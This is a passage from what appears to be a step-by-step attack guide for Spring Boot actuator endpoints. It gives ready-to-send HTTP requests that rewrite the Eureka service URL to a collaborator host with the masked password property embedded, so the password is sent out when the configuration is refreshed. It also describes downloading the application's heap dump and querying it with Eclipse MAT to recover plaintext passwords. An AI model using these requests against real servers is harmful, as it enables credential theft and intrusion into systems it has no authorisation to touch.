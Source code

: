 **spring 2.x**

```http
POST /actuator/env HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://{{ collaborator your.burpcollaborator.net }}/${{{ attribute security.user.password }}}"}
```


**Step 4: **Refresh the configuration

**spring 1.x**

```http
POST /refresh HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/x-www-form-urlencoded
```

**spring 2.x**

```http
POST /actuator/refresh HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json
```


### Password Desensitized by the Asterisk (method 4)

- When accessing the /env interface, the spring actuator will replace the attribute values ​​corresponding to some attribute names with sensitive keywords (such as password, secret) with * to achieve the effect of desensitization

#### Conditions of use:

- Normal GET request targeting `/heapdump` or `/actuator/heapdump` interface

#### Steps to use:
**Step 1:** Find the property name you want to get

- GET requests the /envor /actuator/envinterface of the target website, search for ******keywords, and find the attribute name corresponding to the attribute value masked by the asterisk * to be obtained.

**Step 2:** Download JVM heap information

- The size of the downloaded heap dump file is usually between 50M and 500M, and sometimes it may be larger than 2G

- GET Request the target's /heapdumpor /actuator/heapdumpinterface to download the application's real-time JVM heap information

[](https://www.blogger.com/#)**Step 3: **Use MAT to get the password plaintext in the JVM heap

- Refer to the [article](https://landgrey.me/blog/16/) method, use the OQL statement of the [Eclipse Memory Analyzer](https://www.eclipse.org/mat/downloads.php) select * from org.springframework.web.context.support.StandardServletEnvironment tool to assist in fast filtering and analysis, and obtain the password plaintext
